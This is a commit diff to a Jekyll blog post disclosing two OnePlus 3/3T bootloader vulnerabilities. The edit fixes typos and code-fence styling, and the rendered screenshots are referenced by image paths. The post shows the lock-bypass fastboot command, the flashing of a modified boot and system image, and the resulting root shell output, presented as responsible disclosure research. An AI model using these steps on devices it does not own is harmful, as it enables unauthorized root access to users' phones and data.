

Before and after one commit to roeeh/roeeh.github.io, a Jekyll site: the page built from _posts/2017-02-08-oneplus3-bootloader-vulns.md, in a window 1280 px wide and 1400 px high, scrolled down 4016 px. Shown: the whole window, without its empty margins (232-1047 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
fixed typos and styling issues

````diff
--- a/_posts/2017-02-08-oneplus3-bootloader-vulns.md
+++ b/_posts/2017-02-08-oneplus3-bootloader-vulns.md
@@ -12,11 +12,13 @@ In this blog post I disclose two vulnerabilities in the OnePlus 3/3T bootloader.
 
 Both issues were responsibly disclosed to and acknowledged by *OnePlus Security*. The first vulnerability, [CVE-2017-5626], was reported on **January 23rd**. It was also found independently by a OnePlus engineer. [CVE-2017-5624], reported on **January 16th**, should be fixed in a future OxygenOS release -- the reason for its today's public disclosure is because someone already [published](https://forum.xda-developers.com/oneplus-3/how-to/fix-easy-method-removing-dm-verity-t3544339) it on **January 24th**.
 
-*Disclaimer* I tested the vulnerabilities on OnePlus 3 only, but OnePlus 3T contains the vulnerable code too.
+*Disclaimer*: I tested the vulnerabilities on OnePlus 3 only, but OnePlus 3T contains the vulnerable code too.
 
 ### Bypassing the Bootloader's Lock (CVE-2017-5626) ###
 OnePlus 3 & 3T running OxygenOS 3.2 - 4.0.1 had two proprietary fastboot `oem` commands:
-1. `fastboot oem 4F500301` -- bypasses the bootloader's lock -- allowing one with fastboot access to effectively unlock the device, disregarding `OEM Unlocking`, without user confirmation and without erasure of userdata (which occurs normally after lock-state changes). Moreover, the device still reports it's locked after running this command.
+
+1. `fastboot oem 4F500301` -- bypasses the bootloader's lock -- allowing one with fastboot access to effectively unlock the device, disregarding `OEM Unlocking`, without user confirmation and without erasure of userdata (which normally occurs after lock-state changes). Moreover, the device still reports it's locked after running this command.
+
 2. `fastboot oem 4F500302` -- resets various bootloader settings. For example, it will lock an unlocked bootloader without user confirmation.
 
 Analyzing the bootloader binary shows that the routine which handles the `4F500301` command is pretty straightforward:
@@ -145,13 +147,16 @@ Another option which will not trigger this warning is flashing an old non-modifi
 Anyway, despite the warning (which automatically disappears after 5 seconds!) OnePlus 3/3T still allows to boot in the red [verifiedboot state](https://source.android.com/security/verifiedboot/verified-boot.html#boot_state), hence the attacker's code executes.
 
 There is an uncountable number of ways for demonstrating the severity of this, so I chose the easiest one.
+
 By modifying the boot image:
+
 1. I've set SELinux to `permissive` mode by appending `androidboot.selinux=permissive` to the kernel command line.
+
 2. I've modified the `ramfs` s.t. `ro.debuggable=1`, `ro.secure=0`, `ro.adb.secure=0`, and changed the USB config property (`sys.usb.config`) to include `adb` upon boot.
 
 I then exploited the vulnerability, flashing the modified `boot.img` (`evil_boot.img`):
 
-```terminal
+```c
 λ fastboot flash boot evil_boot.img
 target reported max download size of 440401920 bytes
 sending 'boot' (14836 KB)...
@@ -176,7 +181,7 @@ finished. total time: 0.480s
 
 That had given me a root shell, even before the user entered his credentials:
 
-```terminal
+```c
 OnePlus3:/ # id
 uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),
 1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),
@@ -201,7 +206,7 @@ int init_module(void)
 ```
 
 And then loaded it into the kernel:
-```terminal
+```c
 OnePlus3:/data/local/tmp # insmod ./test.ko
 OnePlus3:/data/local/tmp # dmesg | grep Hello
 [19700121_21:09:58.970409]@3 Hello From Kernel
@@ -239,7 +244,7 @@ The `androidboot.enable_dm_verity` kernel command line argument propagates to th
 
 The couple of vulnerabilities can be combined together for code execution with privileged SELinux domains, without any warning to the user and with access to the original user data. In order to demonstrate this (and there are probably thousands of better ways with a higher severity), I've modified the system partition, adding a privileged app. This can be done by placing an APK under `/system/priv-app/<APK_DIR>` which will eventually cause it to be added to the [priv_app domain](https://android.googlesource.com/platform/system/sepolicy/+/android-7.1.1_r16/priv_app.te).
 
-```terminal
+```c
 λ fastboot flash system system-modded.simg
 target reported max download size of 440401920 bytes
 erasing 'system'...
@@ -268,7 +273,7 @@ OKAY
 ```
 
 Indeed the app loads with the `priv_app` context:
-```terminal
+```c
 1|OnePlus3:/ $ getprop | grep dm_verity
 [ro.boot.enable_dm_verity]: [0]
 OnePlus3:/ $ ps -Z | grep roeeh
````
Also changed, not shown: other parts of _posts/2017-02-08-oneplus3-bootloader-vulns.md (+2 -2 lines).
